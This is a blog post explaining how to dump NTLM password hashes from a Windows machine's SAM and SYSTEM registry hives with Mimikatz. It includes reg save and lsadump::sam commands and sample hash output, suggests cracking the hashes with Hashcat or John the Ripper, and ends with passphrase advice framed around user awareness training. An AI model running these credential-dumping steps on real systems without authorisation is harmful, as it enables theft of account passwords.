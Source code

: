 ```yaml
---
author: Josh
date: 2020-11-23
layout: post
title: "Dumping NTLM Hashes from SAM using Mimikatz"
image: https://joshdawes.com/images/2020-11/mimikatz.png
description: Mimikatz is a tool that can allow you to extract all kinds of Windows secrets. In this post I will show you how to dump password hashes from a SAM database.
permalink: /dumping-ntlm-hashes-from-sam-using-mimikatz/
---
```


![image](/images/2020-11/mimikatz.png){: .center-image }

TL;DR: lsadump::sam /system:SYSTEM /sam:SAM

Previously I had written a blog post on [Dumping NTLM Hashes](https://joshdawes.com/dumping-ntlm-hashes/){:target="_blank"}
 with SamDump2. This method does not work for PCs running Windows 10 1607 or newer. I found this [great write up](https://www.insecurity.be/blog/2018/01/21/retrieving-ntlm-hashes-and-what-changed-technical-writeup/){:target="_blank"} explaining what changed with 1607. 

With these changes, different methods are required to dump NTLM hashes. One of these methods is to use Mimikatz. Mimikatz is a tool that can allow you to extract all kinds of Windows secrets. In this post I will show you how to dump password hashes from a previously acquired SAM (Security Account Manager) database. You will also need to acquire the SYSTEM database so Mimikatz can use the SysKey to decrypt the SAM database. The SAM and SYSTEM databsases are located in:

```
C:\Windows\system32\config\
```

# Prerequisites

Download [Mimikatz](https://github.com/gentilkiwi/mimikatz){:target="_blank"} and extract to C:\mimikatz_trunk

Save your SAM and SYSTEM databases in the Mimikatz directory. i.e. C:\mimikatz_trunk\x64

# Saving SAM and SYSTEM Databases

To quickly get a SAM and SYSTEM database run the following commands:

```
reg save HKLM\SAM c:\mimikatz_trunk\x64\SAM
reg save HKLM\SYSTEM c:\mimikatz_trunk\x64\SYSTEM
```

Note: You will be required to have administrator access to run these commands and the directory must already exist. 


# Dumping Hashes
Now that you have Mimikatz, the SAM database, and the SYSTEM database in the same directory, double click on mimikatz.exe. 

You will be presented with the mimikatz command line. The first command you’ll want to run is the log command. This will allow you to save the output of what you are doing to a file for later reference. Start logging with the following command:

```
log mimikatz.log
```

The log file will save in the current directory. 

You can now run the command to dump the hashes from the SAM database. This will be conveniently written to your log file.

```
lsadump::sam /system:SYSTEM /sam:SAM
```

The hashes will also appear on the screen. Type <strong>exit</strong> to close Mimikatz.

# Finding your Hashes

Now that you have dumped the hashes you can check your log file to view them. They will look something like this:

```
RID  : 000003ea (1002) 

User : User1 

  Hash NTLM: 0ea0e4bb502bd4acaf6997d7c26b54d1 

  

RID  : 000003eb (1003) 

User : User2 

  Hash NTLM: 326f5f6c590b925012b8930758b42148 

  

RID  : 000003ec (1004) 

User : User3 

  Hash NTLM: 1337bdd3c9fa21e8d72849e1618d2535 

   

RID  : 000003ed (1005) 

User : User4 

  Hash NTLM: 9ad1180ec59ccbca760e6de738fb4d70 

  

RID  : 000003ee (1006) 

User : User5 

  Hash NTLM: 6b56ad7d13656b993ded0758f58794f6
```

Copy the <strong>Hash NTLM</strong> string into another text file so you have a text file that looks like the one below.

```
0ea0e4bb502bd4acaf6997d7c26b54d1 
326f5f6c590b925012b8930758b42148 
1337bdd3c9fa21e8d72849e1618d2535 
9ad1180ec59ccbca760e6de738fb4d70 
6b56ad7d13656b993ded0758f58794f6
```

These hashes can then be loaded into Hashcat or John the Ripper to attempt to crack the password.

# Creating a Stronger Password

It is not practical to have a 30-character randomly generated string of characters for your Windows password. Typing this in every time you came back to your desk would be tedious and it would be somewhat impossible for most people to remember. Could you imagine typing in <strong>@nZYf6S%&zZUjf4)YXc9=Y}7Yg{gPB</strong> every time you sat down at your desk? 

Users tend to go with something that is easy to type and easy to remember. i.e. a single word with a capital letter at the beginning and a number at the end, i.e. Summer2020.

Unfortunately, these simple passwords can be cracked very quickly. 

I recommend using a passphrase. A passphrase, while still a password, is multiple words put together which makes it harder for an attacker to crack but should still be reasonably simple to remember after a few days of logging in. It is best to create a passphrase using [diceware](https://theworld.com/~reinhold/diceware.html){:target="_blank"}.

An example diceware password is: <strong>preacherherringcirclelumpiness</strong> 

Of course, you will still need to add some uppercase letters, lowercase letters, symbols, and numbers to meet password requirements. Leaving you with something like:<br><strong>124/Preacher/Herring/Circle/Lumpiness</strong> 

Both Samsung and Apple have built in password managers that you could use to store the passphrase until you remember it.

# Conclusion

Running a simple password dump and cracking the hashes during user awareness training is a great way to highlight how easily a weak password can be exploited. Users can see in real time how quickly an attacker could crack their password, and you can show how quickly an attacker can pivot from there.
